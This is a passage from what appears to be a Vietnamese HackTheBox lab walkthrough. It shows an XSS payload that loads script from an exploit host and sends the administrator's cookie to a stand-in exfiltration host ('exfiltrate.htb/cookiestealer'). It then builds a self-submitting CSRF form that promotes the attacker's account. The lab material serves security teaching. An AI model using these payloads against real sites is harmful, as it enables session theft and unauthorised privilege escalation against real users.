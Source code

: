 **Phát triển khai thác đánh cắp cookie**: Chúng ta sẽ sử dụng máy chủ phát triển khai thác (`exploitserver.htb`) để tạo payload nhằm đánh cắp cookie của quản trị viên.

```html
<script src="http://exploitserver.htb/exploit"></script>
```

Payload này sẽ tải một đoạn mã từ máy chủ khai thác. Đoạn mã này sẽ gửi cookie của quản trị viên đến máy chủ exfiltration (`exfiltrate.htb`):

```javascript
window.location = "http://exfiltrate.htb/cookiestealer?c=" + document.cookie;
```

- **Lưu payload**: Sau khi lưu payload trên máy chủ khai thác, bạn có thể kiểm tra payload bằng cách truy cập endpoint `/exploit`.
- **Chờ quản trị viên truy cập**: Khi quản trị viên mở trang guestbook, mã XSS được chèn vào sẽ tải payload từ máy chủ khai thác và gửi cookie của quản trị viên đến máy chủ exfiltration. Chúng ta có thể xem cookie bị đánh cắp tại endpoint `/log` của máy chủ `exfiltrate.htb`.

#### **2. Khởi động với CSRF**

Ứng dụng web mẫu này vẫn đang trong quá trình phát triển, nên nó không có nhiều chức năng. Tuy nhiên, chúng ta có thể thấy rằng người dùng chỉ có quyền hạn **user**, nhưng có một nút **promote** để thăng cấp người dùng.

- Khi nhấn nút này, ứng dụng web thông báo rằng chỉ quản trị viên mới có quyền thăng cấp người dùng. Tuy nhiên, endpoint này không có bất kỳ biện pháp bảo vệ nào chống lại **CSRF**, điều này cho phép chúng ta thực hiện một cuộc tấn công CSRF để yêu cầu quản trị viên thăng cấp tài khoản của chúng ta.

**Tạo form CSRF**:

```html
<html>
  <body>
    <form method="GET" action="http://csrf.vulnerablesite.htb/profile.php">
      <input type="hidden" name="promote" value="htb-stdnt" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

- Form này sẽ gửi yêu cầu thăng cấp tài khoản khi người dùng bấm nút **Submit request**.

**Tự động gửi form**: Để tấn công mà không cần tương tác từ người dùng, chúng ta sẽ thêm mã JavaScript để tự động gửi form khi trang được tải:

```html
<script>
  document.forms[0].submit();
</script>
```

- **Payload hoàn chỉnh**:

```html
<html>
  <body>
    <form method="GET" action="http://csrf.vulnerablesite.htb/profile.php">
      <input type="hidden" name="promote" value="htb-stdnt" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
